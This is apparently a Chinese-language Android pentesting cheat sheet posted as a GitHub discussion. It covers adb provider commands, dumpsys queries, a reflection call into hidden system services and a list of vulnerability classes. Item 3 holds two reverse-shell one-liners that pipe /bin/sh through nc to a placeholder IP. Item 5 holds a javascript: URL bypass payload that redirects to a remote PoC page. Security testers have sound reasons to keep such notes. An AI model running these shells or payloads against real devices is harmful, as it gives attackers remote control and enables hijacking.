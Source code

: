 ```yaml
---
title: 小知识
slug: blog/discussion-1/
number: 1
url: https://github.com/CloveIso/notes/discussions/1
date:
  created: 2024-11-19
  updated: 2024-11-21
created: 2024-11-19
updated: 2024-11-21
authors: [Cloveiso]
categories: ['杂项']
comments: true
---
```


<!-- 小知识 -->
<!-- more -->
1、应用对应的uid  /data/system/packages.list

2、adb操作provider

```
content query --uri content://icc/adn 
content delete --uri content://settings/settings/pointer_speed
content insert --uri content://settings/settings --bind name:s:my_number --bind value:i:2
```

3、android 反弹shell

```
rm /data/local/tmp/f;mkfifo /data/local/tmp/f;cat /data/local/tmp/f|/bin/sh -i 2>&1|nc ip 2222 >/data/local/tmp/f
nc ip 2222|/bin/sh|nc ip 6666
```

4、查看进程状态和uid状态

```
dumpsys activity processes | grep UidRecord -C 2
```

5、协议绕过

javascript://www.baidu.com/%0D%0Awindow.location.href='http://ip/js_poc.html'

6、android漏洞总结

```
1、activity
越权绕过、钓鱼欺诈/Activity劫持、隐式启动Intent包含敏感数据、拒绝服务攻击、intent重定向
2、service
权限提升漏洞、service劫持、消息伪造、拒绝服务攻击
3、broadcast reciver
敏感信息泄漏漏洞、权限绕过漏洞、消息伪造、拒绝服务
4、provider
信息泄露、sql注入、目录遍历

```

7、调用系统服务

```kotlin
try {
    val getServiceMethod = Class.forName("android.os.ServiceManager").getMethod(
        "getService",
        String::class.java
    )
    val binder = getServiceMethod(null, "companiondevice") as IBinder
    val clsStub = Class.forName("android.companion.ICompanionDeviceManager\$Stub")
    val asInterfaceMethod = clsStub.getDeclaredMethod("asInterface", IBinder::class.java)
    val service = asInterfaceMethod(null, binder)
    val clsProxy = Class.forName("IService\$Stub\$Proxy")
    val testMethod = clsProxy.getDeclaredMethod(
        "MethodName", // change the method name
        Float::class.java, Int::class.java, Long::class.java, Long::class.java // method args
    )
    testMethod(service, 10)
} catch (e: Exception) {
    e.printStackTrace()
}
```

8、查看权限等级

```
pm list permissions -f (经常报错)
dumpsys package | grep -F "Permission [android.permission.DEVICE_POWER]" -C 3
```

